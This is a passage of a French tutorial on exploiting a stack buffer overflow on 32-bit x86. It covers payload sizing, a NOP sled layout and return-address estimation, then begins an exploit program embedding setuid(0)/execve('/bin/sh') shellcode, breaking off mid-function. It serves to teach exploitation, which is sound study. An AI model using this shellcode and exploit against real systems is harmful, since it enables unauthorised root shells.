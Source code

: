     Taille du payload = Taille du buffer + 2*4 + 1
Avec:
* taille du buffer sur la pile, donc avec l'éventuel padding et non dans le code. Ici 264 et pas 256
* 2*4 : sauvegader `%eip` et `%ebp`
* 1 : le `\0`

Donc 264 + 8 + 1 = 273 bytes

Ensuite déterminons la **forme du payload**, avec en première ligne les tailles :
buffer+4-strlen(shellcode)|strlen(shellcode)|4|1
:-:|:-:|:-:|:-:
NOP NOP NOP NOP .......... NOP|shellcode|Ret|O

Avec:
* la suite d'instruction NOP (`0x90`) pour donner de la souplesse sur le calcul de l'adresse de retour, sinon il faut être à l'octet près. La taille `buffer` est celle sur la pile.
* le shellcode
* l'adresse de retour
* le caractère `\0`

**Remarque** : Si le buffer ne peut inclure le shellcode avant d'atteindre `%eip`, alors il faudra positionner le shellcode après `%eip`.


Il nous faut maintenant connaître l'**adresse de retour**. Pour la déterminer, nous allons récupérer la valeur de `%esp` dans notre programme C grâçe au mécanisme de mémoire virtuelle et du format ELF. C'est le but de la fonction :

    long getESP(void) {
        __asm__("mov    %esp,%eax");
    }

Enfin l'exploit prend un argument, c'est l'`offset` qu'il faudra ajouter à la valeur de `%esp` pour remonter dans la pile et trouver le shellcode. Ce qui donne le code suivant:

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>

    #define NOP 0x90

    long getESP(void);

    int main(int argc, char** argv) {
        if (argc < 2) {
            fprintf(stderr, "No argument\n");
            return 1;
        }

        char shellcode[] =
            "\x33\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0"
            "\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c"
            "\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";

        char buffer[273];
        char* ptr = (char*)&buffer;
        int i;
